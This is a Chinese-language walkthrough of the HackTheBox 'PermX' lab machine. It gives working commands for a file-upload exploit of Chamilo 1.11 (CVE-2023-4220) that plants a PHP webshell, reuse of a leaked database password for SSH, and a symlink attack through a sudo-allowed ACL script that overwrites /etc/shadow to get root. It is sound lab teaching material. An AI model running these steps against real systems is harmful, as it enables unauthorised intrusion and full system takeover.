 ```yaml
---
description: Linux / Easy / chamilo 1.11
---
```


# ✔️ permX

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA permx 10.129.76.98 --open
```

<figure><img src="../../.gitbook/assets/1 (6).png" alt=""><figcaption></figcaption></figure>

* 有个开放端口80，登录其页面查看详情，发现是一个线上学习网站：

<figure><img src="../../.gitbook/assets/2 (6).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch工具对80端口扫描以枚举隐藏文件/目录，结果无收获：

```bash
dirsearch -u http://permx.htb/ -x 403,404,400
```

<figure><img src="../../.gitbook/assets/4 (7).png" alt=""><figcaption></figcaption></figure>

* 再试试wfuzz对其子域名进行枚举，看看还有没有其他页面：

```bash
wfuzz -c -u http://permx.htb -H "Host:FUZZ.permx.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl 9
```

<figure><img src="../../.gitbook/assets/5 (7).png" alt=""><figcaption></figcaption></figure>

* 先将域名及其子域名和IP都写进hosts文件中：

<figure><img src="../../.gitbook/assets/3 (6).png" alt=""><figcaption></figcaption></figure>

* 找到2个子域，分别登录查看后发现，lms.permx.htb显示的是名为chamilo应用程序的登录界面，并在页面底部返现了管理员的用户名和邮箱（**Administrator : Davis Miller**）：

<figure><img src="../../.gitbook/assets/6 (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/7 (8).png" alt=""><figcaption></figcaption></figure>

* 初步查看了以一下lms子域的源码，决定使用gobuster对其隐藏文件/目录进行枚举：

```bash
gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../../.gitbook/assets/8 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 有好几个文件都值得关注一下：
  * \`/documentation\`
  * \`/robots.txt\`
  * \`/web.config\`
* 查看\`/robots.txt\`可得知：

<figure><img src="../../.gitbook/assets/9 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 进入\`/documentation\`页面后，发现其运行的chamilo应用程序的版本号：1.11

<figure><img src="../../.gitbook/assets/10 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 接下来依次查看了各个隐藏文件/目录的相关页面，信息如下：

<figure><img src="../../.gitbook/assets/11 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/14 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

该页面中的好多php文件在浏览器中不可读，但是看起来都是配置文件，因此后续可能可以利用到，需要关注起来

### 漏洞查阅

* 从之前的枚举信息中已知正在运行的程序是chamilo 1.11版本，因此搜索后发现多个相关的可利用漏洞，从最近的开始尝试：（CVE-2023-4220）

<figure><img src="../../.gitbook/assets/15 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 阅读漏洞说明后，发现可以在该应用的特定路径下上传没有任何限制的文件，这意味着我可以直接上传一个php的反弹shell：

<figure><img src="../../.gitbook/assets/16 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 这里先简单写一个php一句话木马，检测一下当前目标系统是否存在该漏洞：

```bash
echo '<?php system("id");?>' > shell.php
# 上传这个一句话木马脚本：
curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
# 触发这个脚本后，发现利用成功，这意味着我可以直接上传真正的php反弹shell:
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php'
```

* 这里使用的是一个我在靶机训练中常用的一个反弹shell的php脚本（pentestmonkey），修改脚本中kali端的IP及监听端口后，即可上传：

<figure><img src="../../.gitbook/assets/18 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 监听好自己设置的端口，上传该脚本等待回连：

<figure><img src="../../.gitbook/assets/19 (6).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 成功获得反弹shell，此时开始枚举目标主机中的各个文件内容，查找第一个flag：

<figure><img src="../../.gitbook/assets/20 (5).png" alt=""><figcaption></figcaption></figure>

* 此处找到了刚才在浏览器端无法查看的各个配置文件：

<figure><img src="../../.gitbook/assets/21 (3).png" alt=""><figcaption></figcaption></figure>

* 这其中有几个文件都值得关注：

<figure><img src="../../.gitbook/assets/22 (3).png" alt=""><figcaption></figcaption></figure>

* 最终在\`configuration.php\`文件中发现了目标数据库的登录凭证：

<figure><img src="../../.gitbook/assets/23 (3).png" alt=""><figcaption></figcaption></figure>

* 但是该目标并没有开放3306端口，剩下能利用的是端口22上的ssh服务，或许有重用密码的可能，但是用以上的凭证(chamilo:03F6lY3uXAP2bkW8)无法成功登录ssh服务，于是进行进一步信息枚举：

<figure><img src="../../.gitbook/assets/24 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (2).png" alt=""><figcaption></figcaption></figure>

* 通过以上可知目标机器上的用户里并没有chamilo这个用户名，并且在/home目录中有个/mtz的目录无权访问，而/etc/passwd里正好有这个用户名，于是利用刚才的密码和mtz这个用户名进行ssh登录尝试，成功：

```bash
ssh mtz@10.129.76.98
03F6lY3uXAP2bkW8
```

<figure><img src="../../.gitbook/assets/26 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

* 经过初步的手动枚举，\`sudo -l\`发现了当前可以用sudo身份执行且无需密码的文件是/opt目录下的acl.sh文件，阅读该文件中的代码可得知该脚本是用于指定用户对特定文件的访问权限的，并且要求必须是在/home/mtz/目录下进行的：

<figure><img src="../../.gitbook/assets/27 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 由于该脚本可以修改/home/mtz/目录下的所有的文件权限，那么这就意味着我可以使用符号链接攻击将/etc/shadow文件映射到这里，修改其root密码即可完成提权：

```bash
# 当前所处的位置应就是/home/mtz/目录下：
ln -s / root
ls -l
sudo /opt/acl.sh mtz rwx /home/mtz/root/etc/shadow
echo 'root:$6$tPR3EAkzdPCSN2hT$fwoI8zEzWpKFxmw8JlLFjczHcd1sdLTXzIZuXUx6qwKdG3u2ynkEsDRxx/kf24WAI7gvgiqo.6r6qJ9uEecPs/:19742:0:99999:7:::' >/etc/shadow
su root
```

* 因为这里是需要修改/etc/passwd文件中的root的密码hash部分，所以，需要事先制作一个自定义的root账户的密码hash：

```bash
openssl passwd -6 fiii
```

<figure><img src="../../.gitbook/assets/28 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

<figure><img src="../../.gitbook/assets/29 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例简单偏中等难度，在get shell阶段，锁定对了漏洞后就非常简单；提权阶段需要搞清楚当前低权限账户有完全控制权的那个文件的具体用法后，才能提权成功。

有时候，在初步信息枚举阶段获得到足够多的看似有用的信息，也算得上是一种“兔子洞”。这个时候需要将信息分门别类出来，只关注那些最直接的信息，而不是其他的“噪音”。
{% endhint %}
